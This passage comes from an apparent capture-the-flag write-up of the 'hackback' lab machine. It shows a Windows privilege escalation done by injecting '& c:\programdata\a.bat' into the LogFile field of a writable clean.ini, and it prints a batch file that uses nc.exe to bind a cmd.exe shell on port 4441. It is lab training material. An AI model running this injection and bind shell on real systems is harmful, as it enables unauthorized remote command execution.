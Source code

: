 I can't read the `dellog.ps1` script but the `clean.ini` is writable by user `simple` since he's a member of the `project-managers` group:

```
C:\util\scripts>icacls clean.ini
icacls clean.ini
clean.ini NT AUTHORITY\SYSTEM:(F)
          BUILTIN\Administrators:(F)
          HACKBACK\project-managers:(M)

Successfully processed 1 files; Failed processing 0 files
```

The `LogFile` parameter is vulnerable to command injection. The powershell script that wipes the logs uses that parameter to pipe the output of another command so we can use the `&` character to execute arbitrary commands after the log file has been written to.

I uploaded the following batch file that binds a shell on port 4441. The `snow.txt` file is just there so I can check if the batch file was run by the scheduler.

```
echo check > c:\programdata\snow.txt
C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe -L -p 4441
```

```
# ./hackback_write.py "/programdata/a.bat" a.bat
```

Then I modified the `clean.ini` as follows:

```
[Main]
LifeTime=9999
LogFile=c:\util\scripts\log.txt & c:\programdata\a.bat
Directory=c:\users\hacker
```

I couldn't upload it directly to `c:\util\scripts\clean.ini` so I copied it to `\programdata` first then copied it over from the command line.

```
root@ragingunicorn:~/htb/hackback# ./hackback_write.py "/programdata/clean.ini" clean.ini
```

```
C:\util\scripts>copy c:\programdata\clean.ini clean.ini
copy c:\programdata\clean.ini clean.ini
Overwrite clean.ini? (Yes/No/All): yes
yes
        1 file(s) copied.
```

After a while the batch file is executed (probably some scheduler job set up) and I can connect to the bind shell:

```
# proxychains nc -nv 127.0.0.1 4441
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4441.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
hackback\hacker

C:\Windows\system32>cd \users\hacker\desktop
cd \users\hacker\desktop

C:\Users\hacker\Desktop>dir
```